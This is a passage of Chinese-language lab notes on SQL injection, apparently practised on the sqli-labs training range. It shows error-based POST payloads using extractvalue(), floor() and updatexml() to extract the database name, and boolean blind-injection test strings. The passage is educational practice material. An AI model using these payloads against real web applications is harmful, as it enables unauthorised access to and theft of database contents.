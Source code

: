 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807132001197.png" alt="image-20220807132001197" style="zoom:50%;" />

**3.实行post报错注入，获取数据库名称。**

**（1）etractvalue()报错**

```
uname=-admin') union select 1,extractvalue(1,concat(0x7e,(select database())) ) -- &passwd=adsdmin&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807132338276.png" alt="image-20220807132338276" style="zoom:50%;" />

**（2）floor()报错**

```
uname=-admin') union select count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- &passwd=adsdmin&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807133337503.png" alt="image-20220807133337503" style="zoom:50%;" />

**（3）updatexml()报错**

```
uname=-admin') and 1=updatexml(1,concat(0x7e,(select database())),'1') -- &passwd=adsdmin&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807134605125.png" alt="image-20220807134605125" style="zoom:50%;" />

到此，可以做进一步注入，获取更多信息。



## 3.3 盲注

### 简介

**盲注：**页面没有报错回显，不知道数据库具体返回值的情况下，对数据库中的内容进行猜解，实行sql注入。

#### 盲注的使用条件

1. 页面没有回显位
2. 页面也不会出现报错

`满足这两个条件时可以看看页面有没有真值和假值状态，如果有真值和假值两种状态切换的话，就可以使用布尔盲注。`

### 1.布尔盲注

**布尔盲注**：web页面只返回True真和False假两种类型，然后利用页面返回不同，逐个猜解数据。

**例：靶场less-8**

```sql
#真页面true
?id=1' and 1=1 -- 
#假页面false
?id=1' and 1=2 -- 
```
